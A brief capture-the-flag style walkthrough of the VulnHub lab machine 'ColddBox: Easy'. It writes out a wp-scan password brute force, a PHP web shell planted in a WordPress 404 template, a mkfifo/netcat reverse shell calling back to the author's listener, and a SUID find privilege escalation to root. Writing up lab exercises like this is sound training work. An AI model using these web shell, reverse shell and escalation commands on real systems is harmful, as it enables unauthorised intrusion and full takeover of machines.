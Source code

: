 # ColddBox: Easy

https://www.vulnhub.com/entry/colddbox-easy,586/

Just a warmup, as its been a while. Actually spent most of my time working on a new setup, using kali via WSL2. The biggest issue was catching a reverse shell, which because of how WSL2 works, seems to not be possible for now. Instead I used ncat for windows, via the nmap repo: https://nmap.org/download.html, but then had to fight a war with my own firewall to get it to catch something. Anyway!

1. Found the host only virtual box hosted vm via `nmap -sP 192.168.154.0/24` - that IP range being what I have configured for virtual box.
2. A scan of the machine revealed 80, and a random port that turned out to be SSH.
3. On port 80 was a wordpress site. I ran wp-scan and got a list of users via `-e u`
4. Feeding these users and rockyou back into wp-scan (`-U <list of users> -P <path to rockyou>`) I got a password within 0.16% of rockyou for the user c0ldd
5. Via this user/password, I logged into the admin portal and customised the 404.php template with a one liner reverse shell: `<?php echo shell_exec($_GET['e'].' 2>&1'); ?>`
6. Starting up `ncat.exe -nvlp 1337` on my windows machine, I caught a reverse shell via `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.154.1 1337 >/tmp/f`
7. A `find / -perm -u=s 2>/dev/null` revealed `/usr/bin/find` under the suid list.
8. Running `/usr/bin/find . -exec /bin/sh -p \; -quit` got me a root shell.

And that's all she wrote!
